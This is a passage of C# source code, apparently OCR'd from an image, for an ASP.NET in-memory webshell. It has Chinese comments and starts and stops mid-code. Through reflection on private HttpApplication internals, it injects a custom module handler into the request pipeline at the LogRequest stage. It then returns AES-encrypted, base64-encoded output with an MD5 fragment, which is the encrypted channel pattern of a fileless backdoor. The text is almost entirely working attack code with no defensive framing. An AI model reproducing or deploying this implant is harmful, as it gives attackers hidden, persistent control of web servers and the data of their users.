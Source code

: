                         context.Response.Write(System.Convert.ToBase64String(new System.Security.Cryptography.RijndaelManaged().CreateEncryptor(System.Text.Encoding.Default.GetBytes(kk), System.Text.Encoding.Default.GetBytes(kk)).TransformFinalBlock(r, 0, r.Length))); context.Response.Write(md5.Substring(16));  
                    }  
                      
                    context.Response.Flush();  
                    context.Response.End();  
      
                }  
                public void Dispose()  
                {  
                }  
            }  
            public F()   
            {  
                System.Web.HttpContext Context = System.Web.HttpContext.Current;  
                Context.Server.ClearError();  
                Context.Response.Clear();  
                try   
                {  
                    System.Web.HttpApplication httpApplicationInstance = System.Web.HttpContext.Current.ApplicationInstance;  
                    System.Type httpApplicationType = typeof(System.Web.HttpApplication);  
                    string name = "CustomModule"; // 模块名称  
                    CustomModule customModule = new CustomModule(); // 自定义的 IHttpModule 实例  
                    object[] parameters = new object[] { name, customModule };  
                    System.EventHandler c = new System.EventHandler(customModule.OnEnter);  
                      
                    System.Reflection.PropertyInfo eventsProperty = httpApplicationType  
                        .GetProperty("Events", System.Reflection.BindingFlags.Instance | System.Reflection.BindingFlags.NonPublic);  
                    object eventsInstance = eventsProperty.GetValue(httpApplicationInstance);  
                    System.Reflection.MethodInfo addHandlerMethod = eventsInstance.GetType()  
                        .GetMethod("AddHandler");  
              
                    object[] parametersAddHandler = new object[] { new object(), c }; // 根据方法参数进行适当调整  
                    addHandlerMethod.Invoke(eventsInstance, parametersAddHandler);  
                    // 调用 GetModuleContainer 方法  
                    System.Reflection.MethodInfo getModuleContainerMethod = httpApplicationType.GetMethod("GetModuleContainer", System.Reflection.BindingFlags.Instance | System.Reflection.BindingFlags.NonPublic);  
                    object[] parametersCurrentModuleCollectionKey = new object[] { "AspNetFilterModule" }; // 根据方法参数进行适当调整  
                    object moduleContainer = getModuleContainerMethod.Invoke(httpApplicationInstance, parametersCurrentModuleCollectionKey);  
                      
                    System.Type syncEventExecutionStepType = httpApplicationType.GetNestedType("SyncEventExecutionStep", System.Reflection.BindingFlags.NonPublic);  
                    System.Reflection.ConstructorInfo constructor = syncEventExecutionStepType.GetConstructor(System.Reflection.BindingFlags.NonPublic | System.Reflection.BindingFlags.Instance, null, new System.Type[] { typeof(System.Web.HttpApplication), typeof(System.EventHandler) }, null);  
                    object step = constructor.Invoke(new object[] { httpApplicationInstance, c });  
                      
                    System.Reflection.MethodInfo getAddEventMethod = moduleContainer.GetType().GetMethod("AddEvent",System.Reflection.BindingFlags.Instance | System.Reflection.BindingFlags.NonPublic);  
                    object[] AddEventMethodPs = { System.Web.RequestNotification.LogRequest, false, step };  
                    getAddEventMethod.Invoke(moduleContainer, AddEventMethodPs);  
                }catch(System.Exception e)  
                {  
                    Context.Response.Write(e.Message);  
                }  
                  